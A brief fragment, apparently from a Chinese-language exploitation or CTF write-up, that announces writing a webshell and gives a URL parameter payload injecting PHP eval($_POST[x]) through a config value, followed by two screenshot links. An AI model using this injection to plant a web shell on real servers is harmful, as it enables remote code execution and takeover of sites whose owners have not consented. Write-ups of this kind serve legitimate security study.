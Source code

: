 接下来写 webshell

```
?conf[ss]=%5C%5C');eval($_POST[x]);%23
```

<img src=".\图片\Snipaste_2023-08-09_14-50-38.png" alt="Snipaste_2023-08-09_14-50-38" style="zoom:67%;" />

<img src=".\图片\Snipaste_2023-08-09_14-51-42.png" alt="Snipaste_2023-08-09_14-51-42" style="zoom:67%;" />
